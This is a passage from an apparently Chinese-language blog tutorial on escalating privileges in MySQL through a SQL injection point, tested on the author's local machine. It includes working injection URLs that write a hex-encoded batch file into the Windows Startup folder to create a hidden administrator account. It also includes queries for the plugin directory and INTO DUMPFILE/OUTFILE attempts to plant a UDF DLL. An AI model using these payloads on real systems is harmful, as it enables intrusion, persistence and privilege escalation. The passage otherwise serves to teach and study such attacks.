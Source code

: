 这个算是非常简单的了，直接写到windows的启动目录就行了，我测试的系统是windows7直接写到:C:/Users/selina/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup目录就行了。用HackBar去请求一下链接就能过把bat写入到我们的windows的启动菜单了，不过得注意的是360那个狗兔崽子：

    http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 0x6E65742075736572207975616E7A20313233202F6164642026206E6574206C6F63616C67726F75702061646D696E6973747261746F7273207975616E7A202F616464,'','','' into outfile 'C:/Users/selina/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/1.bat'

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F2018051717011173%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)

##### 2、失败的注入点UDF提权尝试：

MYSQL提权的方式挺多的，并不局限于udf、mof、写windows启动目录、SQL语句替换sethc实现后门等，这里以udf为例，其实udf挺麻烦的，如果麻烦的东东你都能搞定，简单的自然就能过搞定了 。在进行mysql的udf提权的时候需要注意的是mysql的版本，mysql5.1以下导入到windows目录就行了，而mysql>=5.1需要导入到插件目录。我测试的是Mysql 5.5.27我们的首要任务就是找到mysql插件路径。

    http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,@@plugin_dir

获取插件目录方式：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517170207169%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)

通过MYSQL预留的变量很轻易的就找到了mysql所在目录，那我们需要把udf导出的绝对路径就应该是：`D:/install/dev/mysql5.5/lib/plugin/udf.dll`。现在我们要做的就是怎样通过SQL注入去把这udf导出到上述目录了。 我先说下我是怎么从错误的方法到正确导入的一个过程吧。首先我执行了这么一个SQL：-

    SELECT * from corps where id = 1 and 1=2 union select '','','',(CONVERT(0xudf的十六进制 ,CHAR)) INTO DUMPFILE 'D:/install/dev/mysql5.5/lib/plugin/udf.dll'

因为在命令行或执行单条语句的时候转换成char去dumpfile的时候是可以成功导出二进制文件的。 我们用浏览器浏览网页的时候都是以GET方式去提交的，而如果我用GET请求去传这个十六进制的udf的话显然会超过GET请求的限制，于是我简单的构建了一个POST请求去把一个110K的0x传到后端。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517170242709%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)用hackbar去发送一个post请求发现失败了，一定是我打开方式不对，呵呵。随手写了个表单提交下：-
下载地址: [http://pan.baidu.com/share/link?shareid=1711769621&uk=1076602916￼](http://pan.baidu.com/share/link?shareid=1711769621&uk=1076602916)-

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517170308636%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)-

提交表单以后发现文件是写进去了，但是为什么就只有84字节捏？-

 ￼![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517170323354%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)

难道是数据传输的时候被截断了？不至于吧，于是用navicat执行上面的语句：-
 ￼![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517170336318%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)-

我似乎傻逼了，因为查询结果还是只有84字节，结果显然不是我想要的。84字节，不带这么坑的。一计不成又生二计。 不让我直接dumpfile那我间接的去写总行吧？ ￼-

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517170415947%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)-

1 and 1=2 union select '','','',0xUDF转换后的16进制 INTO outFILE'D:/install/dev/mysql5.5/lib/plugin/udf.txt'发现格式不对，给hex加上单引号以字符串方式写入试下: 1 and 1=2 union select '','','',’0xUDF转换后的16进制’ INTO outFILE'D:/install/dev/mysql5.5/lib/plugin/udf.txt'-
